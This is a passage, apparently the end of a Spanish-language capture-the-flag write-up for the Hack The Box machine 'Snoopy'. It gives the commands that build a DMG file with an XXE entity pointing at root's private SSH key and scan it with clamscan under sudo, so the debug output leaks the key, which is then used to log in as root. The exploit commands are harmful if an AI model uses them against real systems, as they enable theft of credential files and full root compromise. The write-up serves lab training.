genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img . && dmg dmg test.img test.dmg bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg

scp -i ../content/id_rsa_sbrown exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles/
```
Ahora desde la sesión ssh lanzamos el siguiente comando:
```bash
cbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
```
Este nos dará la clave ssh de root:

Ahora la copiamos en un archivo le hacemos ``chmod 600`` y nos conectamos mediante ssh usándola:
```bash
ssh root@snoopy.htb -i id_rsa_root
```

Obtenemos así finalmente el accesso root y su flag.